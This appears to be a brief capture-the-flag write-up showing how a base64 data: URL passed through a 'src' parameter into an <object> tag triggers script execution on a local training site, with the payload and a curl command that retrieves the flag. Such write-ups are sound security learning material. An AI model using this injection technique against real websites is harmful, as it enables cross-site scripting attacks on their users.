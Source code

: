 GET /index.php?page=media&src=data:application/javascript;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==



the tag object hold as data a url to the nsa_prism jpg
and it is passed to it through the variable src

data:application/javascript;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

<object data=""> </object>

PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==



curl "http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" | grep "The flag is :"


resource : https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs